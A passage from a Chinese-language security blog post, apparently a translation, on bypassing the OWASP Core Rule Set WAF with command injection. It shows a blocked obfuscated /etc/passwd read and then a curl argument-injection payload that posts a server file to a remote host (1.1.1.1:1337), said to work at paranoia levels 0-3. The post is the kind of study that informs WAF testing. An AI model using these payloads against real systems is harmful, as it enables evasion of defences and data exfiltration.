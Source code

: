 ```
Matched "Operator `PmFromFile' with parameter `unix-shell.data' against variable `ARGS:zzz' (Value: ` cat /e't'c/pa'ss'wd' )"
"o5,10v10,20t:urlDecodeUni,t:cmdLine,t:normalizePath,t:lowercase"
"ruleId":"932160"
```

我无法读取`/etc/passwd`，但不要绝望！<br>
OWASP核心规则集知道公用文件，路径和命令以阻止它们，但它不能与目标应用程序的源代码执行相同的操作。<br>
我不能使用分号`;`字符（这意味着我不能破坏curl语法），但是我可以使用curl来将文件泄露发送到我的远程服务器。这一招适用于paranoia level 0-3<br>
诀窍是用POST HTTP请求将文件发送到请求主体中的远程服务器，并且curl可以通过使用data参数来完成-d：

```
curl -d @/&lt;file&gt; &lt;remote server&gt;
```

请求后，编码`@`为`%40`：

```
curl ".../?zzz=-d+%40/usr/local/.../index.php+1.1.1.1:1337"
```

[![](https://p4.ssl.qhimg.com/t013df006bffe746fb8.png)](https://p4.ssl.qhimg.com/t013df006bffe746fb8.png)<br>
如果目标的paranoia level设置为4，所有这些都不起作用，因为payload包含连字符，正斜杠等字符<br>
好消息是paranoia level 4在生产环境中很难找到。



## 反斜杠是新的单引号:)

同样的技术也可以使用反斜杠``字符。这不是一个串联字符串，而只是一个转义序列：<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a548a3f6bbbf78a2.png)<br>
目前为止就这样了。这么长时间，感谢各位！
